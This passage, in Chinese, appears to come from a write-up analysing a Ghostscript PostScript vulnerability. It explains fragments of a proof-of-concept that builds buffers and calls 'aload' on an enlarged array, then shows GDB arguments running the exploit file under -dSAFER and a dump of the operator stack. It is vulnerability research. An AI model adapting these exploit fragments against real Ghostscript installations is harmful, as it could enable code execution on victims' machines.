 ```
        buffersizes[a] = i;
        a += 1;
    }
```

----

![图片19 POC(Part 2)](https://s1.ax1x.com/2020/04/13/Gvulo4.png)

其功能为定义`buffers`，令`buffers[n]`为`buffersizes[n] string`(e.g.:`buffers[0]=10000 string`)，且每个`buffers[n]`的最后16位均为`0xFF`。
关于`cursize 16 sub 1 cursize 1 sub {curbuf exch 255 put}for`这段代码如何修改`buffers[n]`的理解，可参阅下图：

![图片20 示例代码](https://s1.ax1x.com/2020/04/13/Gvu8Y9.png)

----

下面到了关键部分。首先修改POC如下：

```
/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

buffers            %++
(buffers) print    %++
pop                %++

enlarge array aload
(after aload) print        %++
```

如此一来，可直接在`zprint()`函数处设断。(若在`zaload()`函数处设断，无法一次断下)

启动GDB后设置参数如下：

```
set args -q -dNOPAUSE -dSAFER -sDEVICE=ppmraw -sOutputFile=/dev/null -f /home/test/exp.eps
```

实现`aload`操作的函数`zaload()`[位于/psi/zarray.c]是第一个关键点：

![图片21 zaload()](https://s1.ax1x.com/2020/04/13/Gvu3FJ.png)

`b zprint`设置断点,`r`开始执行后，成功在`zprint()`函数处断下：

![图片22 于zprint()设断](https://s1.ax1x.com/2020/04/13/GvuYS1.png)

查看osp及osbot(变量名osbot，osp和ostop代表operator stack的栈底、栈指针和栈顶)：

```
gdb-peda$ p osbot
$29 = (s_ptr) 0x555557040408    
gdb-peda$ p osp
$30 = (s_ptr) 0x555557040418        
gdb-peda$ x /4gx osbot
0x555557040408:    0x0000006f5715047e    0x00005555572d5e60
0x555557040418:    0x00000007ffff127e    0x00005555575d44e9
```
